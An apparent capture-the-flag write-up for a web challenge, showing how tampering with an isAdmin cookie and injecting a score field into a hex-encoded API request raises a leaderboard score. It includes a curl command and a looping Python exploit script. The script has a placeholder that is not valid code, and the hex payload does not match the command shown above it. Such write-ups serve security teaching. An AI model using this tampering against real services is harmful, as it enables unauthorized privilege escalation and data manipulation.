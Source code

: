 # Web Framework & API Vulnerabilities High Score

Visiting the site at **http://141.85.224.115:7001/**, we found a simple login and registration form. Inspecting the HTML, we discovered that once logged in, we are redirected to /account.php, which allows us to: View our score and user info Submit updated username/email via an AJAX POST request to /api-save-user.php

```js
var data = 'username='+username+'&email='+email;
data = a2hex(data);
$.ajax({
  type: "POST",
  url: "api-save-user.php",
  data: {q: data},
  success: function(data) {
    console.log(data);
  }
});
```

- The data is hex-encoded client-side before being sent.
- No CSRF tokens or validation observed.

We decoded and crafted our own **POST** requests to **api-save-user.php**:
- While inspecting cookies, we noticed a cookie: **isAdmin=false**.
- We manually modified it to: **isAdmin=true**.

And reloaded **/account.php** — it looked visually identical, but we suspected this cookie may unlock some backend functions.

We then tried submitting extra parameters, like a score field:

```bash
username=test&email=test@gmail.com&score=1 {max_score + 1}
```

Encoded and submitted:

```bash
echo -n 'username=test&email=test@gmail.com&score=1' | xxd -p

curl -X POST http://141.85.224.115:7001/api-save-user.php \
  -d 'q=757365726e616d653d6461646126656d61696c3d78656e6f776176653140676d61696c2e636f6d2673636f72653d32' \
  -b "PHPSESSID=9bdded797488d3b70c97fe2ca81f57b7; isAdmin=true"
```

It was accepted by the API: **["Success! Your info has been saved!"]**

But the leaderboard did not reflect the updated score only when the cookie was true.. and we got the flag: **SSS{the_greatest_0f_them_all}**

Or our second solution via a python script:
```python
import requests
import codecs
import time

# Configuration
URL = "http://141.85.224.115:7001"
SESSION_ID = "9bdded797488d3b70c97fe2ca81f57b7"
USERNAME = "test"
EMAIL = "test@gmail.com"
TARGET_SCORE = {current highscore + 1 at least}

# Setup session with cookies
session = requests.Session()
session.cookies.set("PHPSESSID", SESSION_ID)
session.cookies.set("isAdmin", "true")

while True:
    print("[*] Getting current highscore from leaderboard...")
    res = session.get(URL + "/leaderboard.php")

    try:
        current_score = int(res.text.split(f"<li>{USERNAME} - ")[1].split(" points")[0])
        print(f"[+] Current highscore: {current_score}")
    except Exception as e:
        print("[-] Could not parse current highscore. Exiting.")
        break

    if current_score >= TARGET_SCORE:
        print(f"[✓] Reached target score ({TARGET_SCORE})!")
        break

    new_score = current_score + 1
    print(f"[*] Updating score to {new_score}...")

    # Build payload
    payload = f"username={USERNAME}&email={EMAIL}&score={new_score}"
    hex_payload = codecs.encode(payload.encode(), "hex").decode()

    res = session.post(URL + "/api-save-user.php", data={"q": hex_payload})

    if "Success" in res.text:
        print(f"[✓] Score updated to {new_score}")
    else:
        print("[-] Failed to update score. Response:", res.text)
        break

    time.sleep(0.05)
```
